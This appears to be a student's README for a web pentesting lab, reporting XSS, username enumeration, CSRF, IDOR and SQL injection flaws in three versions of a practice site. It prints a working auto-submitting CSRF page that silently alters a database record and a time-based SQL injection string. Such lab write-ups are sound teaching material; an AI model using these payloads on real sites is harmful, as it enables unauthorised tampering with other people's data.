




# Pentesting
Time spent: 8 hours spent in total

Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

Username Enumeration
Insecure Direct Object Reference (IDOR)
SQL Injection (SQLi)
Cross-Site Scripting (XSS)
Cross-Site Request Forgery (CSRF)
Session Hijacking/Fixation
Each version of the site has been given two of the six vulnerabilities. 
(In other words, all six of the exploits should be assignable to one of the sites.)

# Green

Vulnerability #1: Cross-Site Scripting

Attacker can inject an XSS in their feedback form.
Injected XSS Command:

This XSS runs once the account holder checks their feedback page

Vulnerability #2: Username Enumeration

As you can see from above, the Green Website has the Username Enumeration error where the failure to login message differs for the Username that exists vs doesn't exist.
The "failure" class is applied an bold style in css while "failed" class doesn't.

# Red
Vulnerability #1: Cross-Site Request Forgery (CSRF)

Created a malicious page that utilizes the user's session to forge a request to the database:

<html>
<head>
<title>NOT A FAKE FORM</title>
</head>
<body onload="document.my_form.submit()">
<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=3" method="POST" name="my_form" style="display: none;" target="hidden_results" >
<input type="text" name="first_name" value="You Fool!" />
<input type="text" name="last_name" value="Sorry_Mr.Barker" />
<input type="text" name="phone" value="777-777-7778" />
<input type="text" name="email" value="TROLLED@TORLLED.COM" />
</form>
<iframe name="hidden_results" style="display: none;"></iframe>
</body>
</html>

This page secretly makes a post request on page load and hides the outcome in a hidden iframe.
 As result, an account in the database is altered.
 
 Vulnerability #2: Insecure Direct Object Reference
 
 
 Above GIF show an attacker getting access to the hidden user's accounts that the attacker is not permitted to view.
 This is done through modifying the "id" parameter in the URL's to change the GET request.
 
 # Blue
 Vulnerability #1: SQL Injection (SQLi) 
 
 The Attacker is Injects a sql command instead of the proper Salesperson's ID Number.
 Injected SQL Command: %27%20OR%20SLEEP(5)=0--%27
 This causes the Database command to wait for 5 seconds while quering the data.

